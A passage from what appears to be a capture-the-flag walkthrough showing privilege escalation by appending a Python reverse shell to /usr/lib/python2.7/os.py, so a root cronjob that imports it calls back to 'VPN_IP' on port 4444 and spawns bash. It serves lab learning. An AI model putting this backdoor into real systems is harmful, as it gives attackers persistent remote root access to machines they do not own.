 ![Pasted image 20250617162303.png](../../IMAGES/Pasted%20image%2020250617162303.png)

What we can do is modify the `os.py` file to embed a reverse shell that will triggers once the cronjob scripts runs, let's do it, we need to modify:

```
/usr/lib/python2.7/os.py
```

We can add this at the end of the script, you can go to the last line on nano using:

```
alt /
```

Add the following:

```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("VPN_IP",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

![Pasted image 20250617162534.png](../../IMAGES/Pasted%20image%2020250617162534.png)

Now, save it and start the listener, once the script runs again, we will receive a shell:

![Pasted image 20250617162645.png](../../IMAGES/Pasted%20image%2020250617162645.png)
